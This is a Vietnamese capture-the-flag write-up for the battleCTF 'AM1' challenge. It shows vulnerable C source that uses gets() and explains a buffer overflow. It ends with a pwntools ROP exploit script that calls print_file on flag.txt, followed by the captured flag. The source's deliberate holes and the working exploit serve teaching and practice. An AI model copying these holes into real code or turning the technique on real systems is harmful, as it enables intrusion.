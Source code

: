 # AM1

**source C:**

```
#include <stdio.h>
#include <stdlib.h>

void print_file(char * file)
{
	char buffer[20];
	FILE * inputFile = fopen( file, "r" );
	if ( inputFile == NULL ) {
        printf( "Cannot open file %s\n", file );
        exit( -1 );
    }
    fgets( buffer, 65, inputFile );
    printf("Output: %s",buffer);
}

int main(){


    puts("Welcome to Africa battleCTF.");
    puts("Tell us something about you: ");
    char buf[0x30];
    gets( buf );

    return 0;
}

```

**checks và vm:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/63af5b7d-74aa-4c58-9469-5dc0383e0411)

hmm bài này có lỗi BOF bình thường và ta dễ dàng ret2win đến hàm print_file

**tại hàm print_file thì nó sẽ đọc 1 file nào đó trong server chưa xác định được, ta thử dùng ret2win chạy thử xem sao**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/864b882b-b645-4e3f-99cd-e90705dbae62)

đến đây thì nó sẽ so sánh **rbp-0x8** với giá trị **null** giống nhau nên sẽ out chương trình

vấn đề bây h là hàm **print_file** ko đọc đúng file mình cần, thứ mình cần là file **flag.txt**, nên hướng làm là ta sẽ gán file **flag.txt** vào hàm print_flag để đọc flag

bây giờ ta cần **pop rdi** và 1 địa chỉ tĩnh ghi được để có thể lợi dùng hàm **gets** để nhập **flag.txt vào pop rdi**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/8179c5eb-0d38-448f-a706-23017d28d5ec)


tại đây địa chi 0x00000000404000 là địa chỉ ghi được, ta sẽ tăng lên là 0x00000000404a00 để chắc chắn ra được

**(chi tiết hướng làm mình sẽ comment trên script)**

**script:**

```

from pwn import *

context.binary = exe = ELF('./am1',checksec=False)

p = process(exe.path)
# p = remote('pwn.battlectf.online',1003)

gdb.attach(p, gdbscript = '''
b*main+55
c
''')

input()

pop_rdi = 0x000000000040128b

payload = b'a'*56 # offset 
payload += p64(pop_rdi) + p64(0x00000000404a00) # gán địa chỉ ghi được vào rdi
payload += p64(exe.sym['gets']) #nhập flag.txt vào địa chỉ ghi được
payload += p64(pop_rdi) + p64(0x00000000404a00) #gán flag.txt vào rdi
payload += p64(exe.sym['print_file']) # chạy vào đây in flag

p.sendline(payload)

sleep(2)

p.sendline(b'flag.txt')


p.interactive()
```

**flag:**

battleCTF{Africa_1d3al_r0p_e70bee3af3e2b1430d8dc7863a33790d}









